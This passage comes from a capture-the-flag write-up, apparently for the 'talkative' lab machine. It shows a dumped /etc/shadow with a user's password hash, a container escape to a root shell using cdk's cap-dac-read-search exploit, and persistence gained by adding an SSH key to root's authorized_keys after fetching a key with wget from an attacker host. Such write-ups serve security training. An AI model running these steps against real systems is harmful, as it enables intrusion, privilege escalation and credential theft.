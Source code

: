```
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18849:0:99999:7:::
sshd:*:18849:0:99999:7:::
systemd-coredump:!!:18849::::::
lxd:!:18849::::::
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
```

Works! Now we could just read the root flag and be done with, but I wanted to get a proper shell.&#x20;

### Getting Shell

Using `cdk`, we can run this command to get a shell on the main machine.

```
./cdk run cap-dac-read-search /etc/hostname /
Running with target: /, ref: /etc/hostname
executing command(/bin/bash)...
root@c150397ccd63:/# id
uid=0(root) gid=0(root) groups=0(root)
root@c150397ccd63:/# hostname
c150397ccd63
root@c150397ccd63:/# ls /root
root.txt
```

With this, we just need to echo in a public key and we can SSH from `saul`.&#x20;

```bash
echo 'PUBLIC KEY' >> /root/.ssh/authorized_keys
# from saul
wget 10.10.14.13/id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@talkative.htb
```
